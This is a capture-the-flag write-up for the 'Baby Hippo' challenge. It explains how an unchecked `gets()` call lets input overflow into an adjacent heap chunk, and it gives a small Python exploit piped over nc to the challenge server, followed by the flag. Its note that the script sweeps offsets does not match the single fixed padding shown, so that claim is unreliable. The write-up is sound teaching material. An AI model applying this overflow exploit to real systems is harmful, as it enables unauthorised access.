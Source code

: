 # Baby Hippo

<img width="797" height="387" alt="image" src="https://github.com/user-attachments/assets/356ee47b-3bb3-4106-b477-2e6052b88c4d" />

## Challenge

We are given a binary called baby_hippo and a remote instance to connect. The description only says “Say Hi to my Hippo!” and provides a downloadable attachment.

## Analysis
1. Running the binary shows it asks for a username and a password.

2. Inside the code, two heap chunks are allocated:

- Chunk A: stores the username.
- Chunk B: initialized with the value 0xCAFEBABE.

3. The program flow:
- Reads username into A using gets().
- Reads password into A+0x14 (still within chunk A).
- Checks if username == "tiger".
- Then checks if the integer at the start of B is equal to 0x1337BEEF.
- If both conditions are satisfied, it calls the hidden function to print the flag.
**Bug:** `gets()` is unsafe and allows overflowing chunk A into chunk B, so we can overwrite B’s value.

## Solution
- Send `tiger` as the username.  
- For the password, send enough padding to overflow from `A+0x14` into the start of B and overwrite `0xCAFEBABE` with `0x1337BEEF` (little-endian).  
- When the overwrite succeeds, the program passes both checks and reveals the flag.

```python
python3 - <<'PY' | nc 188.166.183.187 33573
import sys, struct
sys.stdout.write("tiger\n")
sys.stdout.flush()
pad = b"A"*60  # adjust; the script above sweeps to find the right value
sys.stdout.buffer.write(pad + struct.pack("<I", 0x1337BEEF) + b"\n")
sys.stdout.flush()
PY
```
This brute-forces the exact offset where the overwrite lands correctly.

<img width="581" height="334" alt="image" src="https://github.com/user-attachments/assets/72c299bc-e288-4855-b59f-3f16bf7d9d9c" />


## Flag 
```flag
Flag: GCTF25{d6ee19f85b9b_B3B3k_I5_Du(K}
```

